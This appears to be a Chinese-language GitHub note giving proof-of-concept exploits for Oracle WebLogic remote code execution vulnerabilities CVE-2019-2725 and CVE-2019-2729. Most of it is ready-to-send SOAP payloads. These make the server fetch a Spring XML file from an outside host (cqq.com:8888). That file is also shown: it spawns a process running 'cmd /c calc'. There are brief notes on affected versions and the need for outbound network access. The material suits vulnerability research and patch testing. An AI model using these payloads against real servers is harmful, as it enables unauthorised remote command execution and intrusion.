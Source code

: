 这个类`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`在v10和v12都存在：
- 10.3.6.0: `modules/com.bea.core.repackaged.springframework.spring_1.2.0.0_2-5-3.jar`
- 12.1.3.0: `wlserver/modules/com.bea.core.repackaged.springframework.spring_1.5.0.0_2-5-3.jar`

限制条件在于：服务器能否外联出网

### CVE-2019-2725_v10_v12
poc:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
<java>
<class><string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
<void>
<string>
http://cqq.com:8888/spel2.xml
</string>
</void>
</class>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```

### CVE-2019-2729_v10
由于jdk的xmldecoder原因，`<array method="forName">`仅支持基于jdk6的v10.

poc:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
<java>
<array method="forName">
<string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
<void>
<string>
http://cqq.com:8888/spel2.xml
</string>
</void>
</array>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```



其中spel2.xml文件内容：
```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>cmd</value>
        <value>/c</value>
        <value><![CDATA[calc]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```


参考：
- [Weblogic-CVE-2019-2725分析通杀poc](https://p0rz9.github.io/2019/05/22/Weblogic-CVE-2019-2725%E5%88%86%E6%9E%90%E9%80%9A%E6%9D%80poc/)
- [Weblogic-CVE-2019-2725-通杀payload](http://www.lmxspace.com/2019/05/15/Weblogic-CVE-2019-2725-%E9%80%9A%E6%9D%80payload/)
- [WebLogic wls9-async组件RCE分析（CVE-2019-2725）](https://lucifaer.com/2019/05/10/WebLogic%20wls9-async%E7%BB%84%E4%BB%B6RCE%E5%88%86%E6%9E%90%EF%BC%88CVE-2019-2725%EF%BC%89/)
